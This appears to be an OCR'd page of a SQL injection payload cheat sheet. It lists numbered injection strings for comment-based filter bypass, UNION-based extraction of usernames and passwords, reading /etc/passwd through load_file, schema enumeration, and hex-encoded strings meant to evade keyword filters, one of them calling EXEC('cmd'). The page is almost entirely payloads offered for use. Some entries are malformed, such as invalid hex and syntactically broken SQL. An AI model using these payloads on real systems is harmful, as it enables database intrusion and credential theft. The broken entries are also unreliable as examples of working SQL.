 
8. Including Comments for Bypass

```   
1. ' /* -- 
2. ' OR 'x'='x' /* 
3. ' OR 1=1; -- 
4. ' UNION SELECT NULL, username /* 
5. ' OR (SELECT COUNT(*) FROM users) > 0; /* 
6. ' OR (SELECT 1=IF(1=1,1,0)) -- 
7. ' AND (SELECT NULL WHERE 1=1); /* 
8. ') /* -- 
9. ' AND (SELECT 1 FROM users WHERE username='admin') = 'admin'; /* 
10. ' UNION SELECT NULL, username FROM users /* 
```
    

9. Structural Injection
```
1. ' OR (SELECT SUM(1) FROM users) > 0; -- 
2. ' UNION SELECT id, username FROM users WHERE length(username) > 0; -- 
3. ' OR (SELECT COUNT(*) FROM (SELECT id FROM users WHERE id > 0) AS t) > 0; -- 
4. ' OR (SELECT 1 WHERE EXISTS(SELECT * FROM users)) IS NOT NULL; -- 
5. ' OR (SELECT MIN(id) FROM users) > 0; -- 
6. ' AND (SELECT COUNT(DISTINCT username) FROM users) > 1; -- 
7. ' OR (SELECT CASE WHEN (SELECT COUNT(*) FROM users) > 1 THEN 1 ELSE 0 END) = 1; -- 
8. ' UNION SELECT NULL, (SELECT MAX(password) FROM users) FROM dual; -- 
9. ' AND (SELECT COUNT(username) FROM (SELECT username FROM users GROUP BY username) AS tmp) > 0; -- 
10. ' OR (SELECT COUNT(DISTINCT username) FROM users) = 1; -- 
```

10. Using Specific Keywords
```
1. ' AND (SELECT table_name FROM information_schema.tables) IS NOT NULL; -- 
2. ' AND (SELECT database() NOT LIKE '') -- 
3. ' UNION SELECT load_file('/etc/passwd') FROM dual; -- 
4. ' UNION SELECT null, null FROM sysobjects; -- 
5. ' AS SELECT 1 FROM users -- 
6. ' SELECT IFNULL((SELECT username FROM users WHERE username='admin'), '') -- 
7. ' UNION ALL SELECT NULL, CASE WHEN 1 THEN 1 ELSE 0 END -- 
8. ' AND (SELECT 1 FROM users WHERE username='admin'); -- 
9. ' AND (SELECT COUNT(*) FROM information_schema.tables) > 0; -- 
10. ' UNION SELECT COUNT(*), NULL FROM users; -- 

```
---

### 1. **Hexadecimal Encoding Exploits**
*Use hexadecimal representations to evade filters that block typical keywords.*

| Payloads |
|---|
| 1. 0x3F; SELECT version(); -- |
| 2. 0x556EION; SELECT user(); -- |
| 3. 0x41646472657373; -- |
| 4. 0x73656C656374; SELECT database(); -- |
| 5. 0x3C7363726970743E; alert('XSS'); -- |
| 6. 0x3C7363726970743E; -- |
| 7. 0x3F; EXEC('cmd'); -- |
| 8. 0x2F2A; SELECT @@version; /* -- |